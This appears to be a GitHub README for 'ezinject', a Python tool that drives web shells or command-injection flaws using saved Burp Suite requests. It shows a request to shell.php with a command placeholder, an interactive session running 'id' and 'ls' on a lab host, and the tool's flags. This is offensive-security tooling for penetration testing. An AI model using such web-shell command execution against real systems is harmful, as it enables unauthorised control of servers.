 # ezinject
Save requests from Burp Suite and interact with web shells or command injection on web applications the easy way.
Just replace command injection with &ltEZINJECT&gt or something of your choosing with the '-c' flag.

### Example
```
$ cat test.req
GET /shell.php?cmd=<EZINJECT> HTTP/1.1
Host: 192.168.56.6:9000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/4.0 (compatible; Mozilla/5.0 ; Linux i686)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9,en;q=0.8
Connection: close

$ python3 ezinject.py -r test.req -os linux -http
ez >  id                     
uid=33(www-data) gid=33(www-data) groups=33(www-data)

ez >  ls                     
index.html
index.nginx-debian.html
shell.php

ez >
```
### Command line flags
```
$ python3 ezinject.py -h
usage: ezinject.py [-h] [-v] [-http] -r REQUESTFILE -os OS [-c COMMAND]
                   [-p PATTERN] [-first]

Interact with web shells or command injection on web applications.

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Display server reponse headers
  -http                 Force connecting over HTTPS
  -r REQUESTFILE, --request REQUESTFILE
                        Burp Request file
  -os OS, --operating-system OS
                        Target operating system (Windows|Linux)
  -c COMMAND, --command COMMAND
                        Command to replace in the burp file, ensure this is
                        unique in the request (default: <EZINJECT>)
  -p PATTERN, --pattern PATTERN
                        Specify a pattern that is located either side of
                        command output to extract eg: --pattern ZZZ (this will
                        filter ZZZ<command output>ZZZ)
  -first                If command output is appended, this will print the
                        first occurence. (default: print the last occurence)
```

### Features
- Tab completion 
- (Ctrl-l or "clear" or "cls") clears the screen
- History
- Type "EzHelp" for Powercatch help commands (command not sent over the network)

### TODO
- Implement File Upload and Download functionality (Performed in segments via base64)
- Flag that will auto generate and filter string for command injection